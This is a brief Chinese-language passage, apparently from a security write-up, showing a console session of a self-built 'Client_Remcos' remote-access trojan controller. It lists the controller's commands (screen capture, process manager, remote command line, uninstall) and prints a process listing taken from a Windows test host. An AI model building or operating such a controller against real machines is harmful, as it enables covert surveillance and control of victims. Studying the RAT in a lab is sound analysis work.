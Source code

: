 screen\_capture 指令响应后返回的截图：

[![](assets/1703640255-d54ca8955f6c9422a9a4415882b761ee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226181015-f6d24f2c-a3d6-1.png)

场景模拟实操：

```bash
F:\GolandProjects\Client_Remcos>Client_Remcos.exe
Server started. Listening on 0.0.0.0:8080
初始化连接......
请输入指令：
help
        screen_capture:截屏
        process_manager：进程管理
        command_line：执行命令行
        close：关闭 Agent 进程
        uninstall：卸载 Agent
        exit：退出 Client
请输入指令：
process_manager
current process PID：1580
Process Name    Path    PID
System          4
smss.exe                316
csrss.exe               404
wininit.exe             444
services.exe            544
lsass.exe               564
lsm.exe         572
svchost.exe             680
svchost.exe             744
svchost.exe             816
svchost.exe             892
svchost.exe             956
svchost.exe             1092
HaozipSvc.exe           1220
svchost.exe             1356
spoolsv.exe             1540
svchost.exe             1620
VGAuthService.exe               1984
vm3dservice.exe         1588
vmtoolsd.exe            940
WmiPrvSE.exe            2536
SearchIndexer.exe               2940
```